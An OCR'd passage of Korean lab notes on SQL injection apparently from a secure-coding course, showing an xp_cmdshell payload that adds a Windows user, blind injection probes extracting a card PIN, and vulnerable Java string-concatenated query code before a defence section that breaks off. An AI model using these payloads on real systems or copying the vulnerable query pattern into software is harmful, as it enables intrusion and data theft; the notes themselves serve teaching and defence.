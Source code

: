 admin'; exec xp_cmdshell 'net user hacker hacker /add'--

서버 사용자 계정에 hacker가 추가됨

![16](https://user-images.githubusercontent.com/20276476/76811778-2070af80-6836-11ea-8b51-b0b72af66fe8.png)



#### 5. Blind SQL Injection

101 and 1=1 -> true

101 and 1=2 -> false

**이 결과를 보고 뒤에 물을 내용을 넣어서 네, 아니오 결과를 보고 정보를 알아냄**



101 and (select pin from pins where cc_number='1111222233334444')<3000

->true , pin이 3000보다 작다



blind SQL Injection은 시간이 많이 드므로 보통 자동화 툴을 사용한다.





http://xxx.xxx.xxx.xxx:xxxx/board_view.asp?num=1

-> 1번 게시물을 보겠다

-> 주소로 기능이 다 보인다 -> 보안에 취약하다



*****



#### 방어 기법은?

* SQL을 고정시키면 된다

* SQL을 DB에 내장시켜야 한다(내장 함수로)



1. `'or ''='`을 막아보자

   eclipse ->  Java Resources -> src -> kr.co.openeg.lab.test.com -> TestController.java열기

   찾기로 sql(347라인 정도)

   readDB -> ctrl 클릭하면 해당 함수로 간다

   ```java
   public String readDB(String id, String passwd) {
       StringBuffer  result=new StringBuffer();
       Connection con=null;
       Statement st=null;
       ResultSet rs=null;
       try {
           con = EConnection.getConnection(this);	
           st = con.createStatement();
   
           // 여기가 query
           // 이런식으로 (데이터가 쿼리랑 이어쓰기로 되어있는 구조) 되어있으면 injection 당함
   
           rs = st.executeQuery("select * from board_member where userid='"+id+"' and userpw='"+passwd+"'");
           rs = st.executeQuery("select * from board_member where userid='"+id+"' and userpw='"+passwd+"'");
           if ( rs.next() ) {
               result.append("ID: "+rs.getString(2));
               result.append("    PASSWORD: "+rs.getString(3));
           }
   ```